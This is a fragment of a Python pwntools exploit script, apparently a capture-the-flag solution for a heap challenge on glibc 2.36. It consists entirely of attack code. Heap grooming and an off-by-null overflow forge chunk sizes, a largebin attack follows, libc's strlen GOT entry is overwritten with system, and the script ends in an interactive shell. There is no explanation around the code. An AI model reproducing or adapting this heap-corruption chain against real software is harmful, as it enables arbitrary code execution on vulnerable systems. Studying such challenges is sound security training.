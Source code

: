 ```python
add(9, 0x108)
add(13, 0x30)
free(0)
free(3)
free(6)
free(2)
add(2, 0x468, b'a' * 0x20, b'a' * (0x438 - 0x20) + p64(0x561)[:-2])
add(3, 0x418) # c1 from ub
add(6, 0x428) # D is p->bk
add(0, 0x418, b'0' * 0x20) # A is p->fd
# set A->bk = p
free(0)
free(3)
add(0, 0x418, b'a' * 8 + p8(0))
add(3, 0x418)
# set D->fd = p
free(3) # C1
free(6) # D is p->bk now ub: D->fd = C1
free(5) # merge D with H0, preserve D->fd
add(6, 0x500 - 8, b'a' * 0x20, b'a' * (0x488 - 0x20) + p64(0x431) + p8(0)) # H1 
add(3, 0x3b0)
# off by null
free(4)
add(42, 0x108, b'a', b'a' * (0x100 - 0x20) + p64(0x560))
free(6)
add(6, 0x468, p16(1) * (0x20 // 2), b'a' * (0x448 - 0x20) + p64(0x111))
add(10, 0x5d0) # clear ub
system = libc_base + libc.sym["system"]
# 2 can overwrite #6
bk = libc_base + 0x1d20c0
free(6)
add(11, 0x478)
free(8)
edit(2, b'a' * 0x20, b'a' * (0x438 - 0x20) + p64(0x471) + p64(bk) * 3 + p64(max_bin - 0x20))
gdb.attach(p, " set debug-file-directory ~/workplace/glibc_master/2.36-0ubuntu4_amd64/.debug/ \n set solib-search-path ~/workplace/glibc_master/2.36-0ubuntu4_amd64/")
add(12, 0x478, b"a\n", b"a\n")

free(13)
edit(0, b'a' * 0x20, p64(strlen_got_libc) * 6)
menu(1)
p.recvuntil("Index: ")
p.sendline(str(14)) 
p.recvuntil("Size: ")
p.sendline(str(0x498))
p.recvuntil("Data: ")
p.send(p64(system) * 2)
p.recvuntil("Description: ")
p.send("a\n")
menu(1337)
p.interactive()
```
